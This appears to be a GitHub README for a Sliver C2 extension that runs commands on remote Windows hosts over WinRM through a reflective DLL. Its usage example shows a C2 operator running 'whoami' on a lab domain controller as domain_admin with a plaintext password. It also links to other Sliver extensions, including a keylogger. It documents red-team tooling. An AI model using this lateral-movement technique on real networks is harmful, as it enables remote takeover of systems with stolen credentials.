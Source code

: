 # winrmdll-sliver

C++ WinRM API via Sliver's reflective DLL loader, ported from [mez-0/winrmdll](https://github.com/mez-0/winrmdll) to add Sliver extension support.

## Usage

```
sliver > winrm -- -i dc.snaplabs.local -u snaplabs.local\\domain_admin -p P@ssword1 -c whoami

[*] Successfully executed winrm
[*] Got output:
[+] Arguments processed
       hostname: dc.snaplabs.local
        command: whoami
       username: snaplabs.local\domain_admin
       password: P@ssword1

snaplabs\domain_admin
```

## Resources
* [mez-0/winrmdll](https://github.com/mez-0/winrmdll)
* [Learning Sliver C2 (12) - Extensions](https://dominicbreuker.com/post/learning_sliver_c2_12_extensions/)
* [trustedsec/SliverKeylogger](https://github.com/trustedsec/SliverKeylogger)
* [MrAle98/Sliver-PortBender](https://github.com/MrAle98/Sliver-PortBender)